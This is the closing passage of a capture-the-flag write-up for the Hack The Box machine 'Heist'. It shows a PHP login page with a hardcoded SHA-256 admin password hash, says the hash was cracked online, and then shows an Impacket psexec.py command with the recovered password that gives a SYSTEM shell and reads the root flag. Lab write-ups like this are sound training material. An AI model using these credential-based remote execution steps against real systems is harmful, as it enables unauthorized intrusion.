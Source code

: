                6 Dir(s)   7,923,224,576 bytes free
{% endhighlight %}

I skimmed through the pages until I came across `login.php`.
{% highlight php %}
<?php
session_start();
if( isset($_REQUEST['login']) && !empty($_REQUEST['login_username']) && !empty($_REQUEST['login_password'])) {
        if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === 
		'91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') {
                $_SESSION['admin'] = "valid";
                header('Location: issues.php'); 
        }
        else
                header('Location: errorpage.php');
}
else if( isset($_GET['guest']) ) {
        if( $_GET['guest'] === 'true' ) {
                $_SESSION['guest'] = "valid";
                header('Location: issues.php');
        }
}
?>
{% endhighlight %}

The `SHA-256` hash of the admin's password was hardcoded in `login.php`. I immediately tried different online password cracking websites until I came across this [website](https://md5decrypt.net/en/Sha256). I supplied the hash and got the password `4dD!5}x/re8]FBuZ`.

Using [Impacket](https://github.com/SecureAuthCorp/impacket)'s `psexec.py`, I was able to establish a shell.
{% highlight bash %}
$ python psexec.py Administrator:'4dD!5}x/re8]FBuZ'@heist.htb
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on heist.htb.....
[*] Found writable share ADMIN$
[*] Uploading file igPymROC.exe
[*] Opening SVCManager on heist.htb.....
[*] Creating service KKCH on heist.htb.....
[*] Starting service KKCH.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.437]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>more root.txt
50dfXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}
